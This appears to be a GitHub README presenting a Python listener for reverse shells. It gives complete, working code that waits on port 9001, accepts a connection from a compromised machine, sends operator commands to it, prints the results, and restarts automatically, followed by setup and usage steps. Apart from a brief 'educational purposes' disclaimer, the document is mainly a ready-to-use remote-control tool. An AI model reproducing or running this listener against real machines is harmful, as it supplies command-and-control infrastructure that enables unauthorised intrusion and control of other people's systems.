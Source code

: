 # Python Listener for Reverse Shell

This Python script acts as a listener to receive connections from a reverse shell application. It allows you to remotely execute commands on the target machine that is running the reverse shell.

## Features

- Continuously listens for incoming connections.
- Executes commands sent from the listener on the target machine.
- Automatically restarts the listener if the connection is lost or an error occurs.
- Gracefully handles keyboard interrupts to shut down the listener.

## Prerequisites

- Python 3.x installed on the remote server.

## Setup

1. Save the following Python script as `listener.py`:

    ```python
    import socket
    import time

    def start_listener(host, port):
        while True:
            try:
                # Create a socket object
                server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

                # Bind the socket to the host and port
                server_socket.bind((host, port))

                # Listen for incoming connections
                server_socket.listen(1)
                print(f"Listening on {host}:{port}...")

                # Accept a connection
                client_socket, client_address = server_socket.accept()
                print(f"Connection from {client_address}")

                try:
                    while True:
                        # Receive command from user
                        command = input("Enter command: ")
                        if not command.strip():
                            continue

                        # Send the command to the client
                        client_socket.sendall(command.encode() + b'\n')

                        # Receive and print the response
                        response = client_socket.recv(4096).decode()
                        if not response:
                            break
                        print(response, end='')

                except KeyboardInterrupt:
                    print("\nShutting down listener...")
                    break
                except Exception as e:
                    print(f"Error: {e}")
                finally:
                    # Close the connection
                    client_socket.close()
                    server_socket.close()

            except Exception as e:
                print(f"Listener error: {e}")
                print("Restarting listener in 5 seconds...")
                time.sleep(5)  # Wait for 5 seconds before restarting the listener

    if __name__ == "__main__":
        host = "0.0.0.0"  # Listen on all interfaces
        port = 9001       # Change Port 
        start_listener(host, port)
    ```

2. Run the Python script on your remote server:

    ```sh
    python listener.py
    ```

## Usage

1. Run the listener script using the command above.
2. Wait for the reverse shell to connect to the listener.
3. Enter commands into the listener terminal to execute them on the connected reverse shell.

## Notes

- Ensure that the port number in the listener script matches the port number used by the reverse shell.
- The listener will automatically restart if the connection is lost or an error occurs, ensuring continuous operation.

## Security Considerations

- Use this script responsibly and ensure you have permission to access the target machine.
- Running a listener on a public-facing server can expose it to unauthorized access. Ensure proper network security measures are in place.

## License

This project is licensed under the MIT License. See the LICENSE file for more details.

## Disclaimer

This tool is intended for educational purposes only. The author is not responsible for any misuse or damage caused by this tool. Use it at your own risk.